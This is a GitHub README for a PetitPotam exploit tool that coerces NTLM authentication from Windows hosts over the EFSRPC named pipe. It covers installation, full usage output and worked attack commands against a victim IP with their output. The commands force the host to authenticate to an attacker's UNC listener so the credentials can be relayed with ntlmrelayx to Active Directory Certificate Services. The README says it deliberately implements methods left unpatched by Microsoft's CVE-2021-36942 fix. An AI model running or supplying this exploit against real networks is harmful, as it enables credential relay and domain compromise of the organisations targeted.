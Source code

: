 # PetitPotam

Coerce NTLM authentication from Windows hosts

## Installtion

```bash
$ pip3 install impacket
```

## Usage


```bash
usage: petitpotam.py [-h] [-debug] [-port [destination port]] [-pipe pipe]
                     [-method method] [-target-ip ip address]
                     [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-dc-ip ip address]
                     target path

PetitPotam - Coerce authentication from Windows hosts

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  path                  UNC path for authentication

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON

connection:
  -port [destination port]
                        Destination port to connect to MS-RPRN named pipe
  -pipe pipe            Named pipe to use (default: lsarpc)
  -method method        Method used for coercing authentication
  -target-ip ip address
                        IP Address of the target machine. If ommited it will use
                        whatever was specified as target. This is useful when
                        target is the NetBIOS name and you cannot resolve it

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters. If
                        valid credentials cannot be found, it will use the ones
                        specified in the command line
  -dc-ip ip address     IP Address of the domain controller. If omitted it will
                        use the domain part (FQDN) specified in the target
                        parameter
```

### Examples

In these examples, the victim is `172.16.19.100` and the attacker is `172.16.19.1`

The attack can use `impacket-ntlmrelayx` to relay the authentication to interesting
endpoints, for instance Active Directory Certificate Services Web Enrollment.

By default, a random method will be chosen. 

The target may or may not require authentication. These examples were tested on a 
Windows 2022 server, and no authentication was required.

The UNC path must point to the attacker's listener. Note that if the attacker is not
part of the trusted intranet zone, the Windows host will try to authenticate with a 
null session. This can be circumvented by either using a NETBIOS name or ADIDNS record
for the attacker.

#### Random Method

```bash
$ python3 petitpotam.py -debug '172.16.19.100' '\\172.16.19.1\share\foo'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[+] Connecting to 'ncacn_np:172.16.19.100[\\PIPE\\lsarpc]'
[+] Connected to 'ncacn_np:172.16.19.100[\\PIPE\\lsarpc]'
[+] Binding to ('c681d488-d850-11d0-8c52-00c04fd90f7e', '1.0')
[+] Bound to ('c681d488-d850-11d0-8c52-00c04fd90f7e', '1.0')
[*] Choosing random method
[*] Using method: AddUsersToFile
[*] Coercing authentication to: '\\\\172.16.19.1\\share\\foo'
[*] Success!
```

#### Specific Method

```bash
$ python3 petitpotam.py -debug -method AddUsersToFile '172.16.19.100' '\\172.16.19.1\share\foo'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[+] Connecting to 'ncacn_np:172.16.19.100[\\PIPE\\lsarpc]'
[+] Connected to 'ncacn_np:172.16.19.100[\\PIPE\\lsarpc]'
[+] Binding to ('c681d488-d850-11d0-8c52-00c04fd90f7e', '1.0')
[+] Bound to ('c681d488-d850-11d0-8c52-00c04fd90f7e', '1.0')
[*] Using method: AddUsersToFile
[*] Coercing authentication to: '\\\\172.16.19.1\\share\\foo'
[*] Success!
```

## Details

PetitPotam was orignally created / discovered by [topotam](https://github.com/topotam).
This exploit is heavily based on the implementation and research from [topotam](https://github.com/topotam/PetitPotam).

If you're using `ntlmrelayx` and the Windows host connects with an anonymous logon (null) session, please see [this pull request](https://github.com/SecureAuthCorp/impacket/pull/1179) to fix the issue. You can confirm the authentication coercion with Responder.

### CVE-2021-36942

Microsoft has released a [patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) for PetitPotam, but only for two of the methods (EfsRpcOpenFileRaw, EfsRpcEncryptFileSrv). For that reason, those methods are *not* implemented in this exploit. 

Instead, the other methods (which were not fully implemented by topotam) have been implemented in this exploit.

## Authors
- [@ollypwn](https://github.com/ollypwn)

## Credits
- [@topotam](https://github.com/topotam)'s [implementation](https://github.com/topotam/PetitPotam)
- [Impacket](https://github.com/SecureAuthCorp/impacket)
